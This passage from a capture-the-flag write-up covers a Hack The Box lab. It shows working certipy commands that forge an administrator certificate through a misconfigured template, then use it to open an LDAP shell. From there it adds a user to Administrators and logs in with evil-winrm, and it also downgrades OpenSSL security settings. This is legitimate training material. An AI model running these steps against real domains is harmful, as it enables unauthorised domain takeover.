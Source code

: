     [*] Connecting to 'ldaps://10.129.6.179:636'
    [-] Got error: ("('socket ssl wrapping error: [SSL: CA_MD_TOO_WEAK] ca md too weak (_ssl.c:3855)',)",)
    [-] Use -debug to print a stacktrace


### Edited openssl
* Started a container with python:3.8.8 and installed certipy-ad to ensure I was on openssl 1.1.1
* updated /etc/ssl/openssl.cnf to include the following lines:
```
[system_default_sect]
MinProtocol = TLSv1
CipherString = DEFAULT@SECLEVEL=0
```


I suspect this would have worked with "Certificate Request Agent" (1.3.6.1.4.1.311.20.2.1) for a direct auth, I will try this later. For now this method gives me ldapshell as administrator so I can give john the promotion they deserve.

On newer certipy
```sh
root@cace85f73c7d:/currentdir# certipy req -u 'cert_admin@tombwatcher.htb' -p 'Password1234!' -target 'tombwatcher.htb' -ca 'tombwatcher-CA-1' -template 'WEBSERVER' -upn 'administrator@tombwatcher.htb' -sid 'S-1-5-21-1392491010-1358638721-2126982587-500' -application-policies '1.3.6.1.5.5.7.3.2'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 26
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@tombwatcher.htb'
[*] Certificate object SID is 'S-1-5-21-1392491010-1358638721-2126982587-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```
On older openssl
```sh
root@9b71e9a4c4fc:/currentdir# certipy auth -pfx administrator.pfx -debug -ldap-shell -dc-ip 10.129.6.179
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Connecting to 'ldaps://10.129.6.179:636'
[*] Authenticated to '10.129.6.179' as: u:TOMBWATCHER\Administrator
Type help for list of commands

# whoami
u:TOMBWATCHER\Administrator

# add_user_to_group john administrators
Adding user: john to group Administrators result: OK
```

on host
```sh
(.venv)  ✘ tokugero@pangolin  ~/ctf/htb/season8/week4-tombwatcher   main  evil-winrm -i tombwatcher.htb -u john -p Password1234!
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\john\Documents> cd ../../Administrator/Desktop
```